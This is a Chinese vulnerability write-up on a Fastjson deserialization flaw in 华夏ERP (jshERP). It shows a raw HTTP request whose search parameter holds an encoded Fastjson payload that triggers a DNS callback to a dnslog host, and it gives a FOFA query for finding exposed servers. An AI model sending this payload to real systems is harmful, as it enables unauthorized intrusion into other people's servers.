



#### 影响范围

华夏ERP

#### 漏洞概述

华夏ERP后台Fastjson命令执行

#### 漏洞复现

华夏ERP引用了fastjson，版本为1.2.55，可以通过fastjson进行深入利用



通过查看数据包可以发现漏洞点位于search参数 ：

```
GET /jshERP-boot/depotHead/list?_t=1692429012&search=%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6e%65%74%2e%49%6e%65%74%34%41%64%64%72%65%73%73%22%2c%22%76%61%6c%22%3a%22%36%70%74%34%75%74%2e%64%6e%73%6c%6f%67%2e%63%6e%22%7d%20 HTTP/1.1
Host: x.x.x.x.
Accept: application/json, text/plain, */*
X-Access-Token: c7e52ae41196412aa0f751c9bfde838b_63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



DNS端成功接受到请求：



#### 资产测绘

FOFA：
```
"jshERP-boot"
```


